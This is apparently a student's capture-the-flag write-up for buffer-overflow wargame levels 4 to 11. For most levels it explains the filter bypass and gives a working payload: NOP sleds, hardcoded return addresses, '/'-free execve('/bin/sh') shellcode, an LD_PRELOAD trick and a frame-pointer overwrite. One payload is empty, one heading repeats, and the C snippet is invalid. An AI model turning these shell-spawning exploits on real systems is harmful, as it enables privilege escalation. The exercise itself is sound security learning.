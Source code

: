 ```yaml
---
title: Wargame Writeup [lv4~lv11]
tags: assignment2 wargame bof lob lv4 lv5 lv6 lv7 lv8 lv9 lv10 lv11
---
```


### 0. lv4 > lv5

filters:
- argc > 1
- set env values to 0
- argv[1][0x2f] == 0xff

environment values are being wiped out, so let's use argvs

payload : `` `python -c 'print "A"*(0x28+0x4) + "\x08\xd4\xff\xff " +"\x90"*2000 +  "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` ``

### 1. lv5 > lv6

filters:
- argc > 1
- set env values to 0
- argv[1][0x2f] == 0xff
- len(argv[1]) < 0x30

length filter is added to argv[1], so let's just put the shellcode in argv[2]

payload : `` ``

### 2. lv6 > lv7

filters:
- argc > 1
- len(argv[0]) == 0x4d
- set env values to 0
- argv[1][0x2f] == 0xff

since argv[0]'s length is filtered, use symbolic link to satisfy the condition.

payload : `` ./aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa `python -c "print 'a'*(0x28+4) + '\x30\xd3\xff\xff'"` `python -c "print'\x90'*80 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' "` ``

### 3. lv7 > lv8

filters:
- set env values to 0
- argv[1][0x2f] == 0xff
- argc == 2
- len(argv[1]) <= 0x30

We can use symbolic link to store shellcode inside argv[0].
However, the shellcode shouldn't contain any '\x2f', which seems inevitable since '/bin/sh' is needed.

But we can still bypass this by using "packed" shellcode

shellcode:
``\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80``

payload : `` `python -c 'print "./" + "\x90"*100 + "\x66\xb8\xf0\x03\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'` `python -c 'print "a"*(0x28+4)+"\x30\xd3\xff\xff"'` ``

### 4. lv8 > lv9

filters:
- set env values to 0
- argc > 1
- argv[1][0x2f] == \xff
- argv[1][0x2e] != \xff

since the argv[1] is copied to ebp-0x28, return address would be [0x2f][0x2e][0x2d][0x2c].

What this means is that the second most significat byte of the return address can not be \xff.

If we increase the argv size, the address decreases. Magnifying this leads the stack to use address starting with \xff\xfe.

payload : `` `python -c "print 'a'*(0x28+4) + '\x45\xb2\xfe\xff' + '\x90'*0x12222 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'"` ``

### 5. lv9 > lv10

filters:
- argc > 1
- env = 0
- argv[1][0x2f] == \xff
- overwrite argvs and buffer with 0 (excluding return address)

since the every input we've used before gets removed (except the return address), this seemed hopeless. But after a bit of research, I was able to find out that there is "program name" stored at the top of the stack.

By using symbolic link and a little bit of debugging, I solved the problem.

payload : `` `python -c "print './'+ '\x90'*100 + '\x66\xb8\xf2\x03\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'"` `python -c "print 'a'*(0x28+4) + '\xa0\xdf\xff\xff'"` ``

### 6. lv10 > lv11

filters:
- argc > 1
- argv[1][0x2f] == \xff
- overwrite buffer with 0 (excluding return address)

it is simillar to previous one, but this time it allows env values.

We have to make use of environments' LD_PRELOAD.

I solved this by creating a empty library ELF with the name that includes shellcode (without \x2f)

create source code of empty library
```c
// source.c
public void a{

}
```

compile

```bash
gcc -fPIC -shared source.c -o `python -c "print './' + '\x90'*100 + '\x66\xb8\xf3\x03\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'`
```
set LD_PRELOAD

```bash
export LD_PRELOAD="/home/lv10/`python -c "print './' + '\x90'*100 + '\x66\xb8\xf3\x03\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'`"
```

payload : `` `python -c "print 'a'*(0x28+4) + '\x01\xbf\xff\xff'"` ``


### 6. lv10 > lv11

filters:
- argc > 1
- can overwrite stack to ebp+1

ebp contains stack frame pointer, which means that we can overwrite 1  least significant byte of the sfp.

We have to know basic stack structure for this.

|offset|value|
|--|--|
|ebp|sfp|
|ebp+4|return address|
|ebp+8|argc|
|ebp+12|argv|
|...|...|

if we put shellcode in argv[2] and overwrite sfp with address for (argv[2] - 4), we can make the program return to argv[2] and execute the shellcode.

After a lot of debugging, I was able to find the correct offset.

payload: `` `python -c "print 'a'*0x28 + '\xf8\xaa\xaa\xaa ' + '\x90'*100 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'"` ``
